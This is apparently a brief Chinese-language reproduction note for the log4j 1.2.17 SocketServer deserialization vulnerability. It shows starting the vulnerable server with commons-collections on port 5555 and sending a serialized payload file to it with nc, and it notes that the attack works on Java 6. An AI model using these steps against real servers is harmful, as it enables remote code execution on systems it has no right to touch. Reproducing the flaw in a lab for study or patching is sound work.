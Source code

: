  # 执行命令
 java -cp log4j-1.2.17.jar;commons-collections-3.1.jar org.apache.log4j.net.SocketServer 5555 log4j.properties D:\log 4j
 # 发送payload
 nc 192.168.204.1 5555 < log4j.ser
 
 java6环境可复现
